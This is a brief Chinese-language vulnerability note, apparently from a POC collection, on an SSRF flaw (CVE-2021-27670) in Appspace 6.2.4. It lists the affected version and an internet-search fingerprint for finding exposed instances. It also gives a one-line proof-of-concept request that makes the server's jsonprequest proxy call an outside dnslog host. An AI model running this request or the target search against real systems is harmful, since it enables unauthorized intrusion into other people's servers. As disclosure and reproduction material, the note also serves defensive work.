

# Appspace jsonprequest SSRF漏洞 CVE-2021-27670

## 漏洞描述

Appspace 6.2.4存在漏洞，允许通过api/v1/core/proxy/jsonprequest接口来进行服务端请求伪造，危害系统安全。

## 漏洞影响

<a-checkbox checked>Appspace 6.2.4</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="Sign-in-to-Appspace-Core"</a-checkbox></br>

## 漏洞复现

登录页面为



验证POC

```python
/api/v1/core/proxy/jsonprequest?objresponse=false&websiteproxy=true&escapestring=false&url=http://lo2z02.dnslog.cn
```

